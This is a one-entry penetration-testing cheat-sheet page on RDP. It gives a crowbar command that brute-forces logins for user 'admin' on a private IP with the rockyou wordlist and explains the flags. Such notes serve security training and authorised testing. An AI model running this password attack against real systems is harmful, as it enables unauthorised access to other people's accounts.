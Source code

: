 ```yaml
---
title: RDP
parent: Others
layout: default
nav_order: 4
---
```


`crowbar -b rdp -s 10.11.0.22/32 -u admin -C /usr/share/seclists/rockyou_utf8.txt -n 1`\
(C password list, n number of threads, for single IP use /32)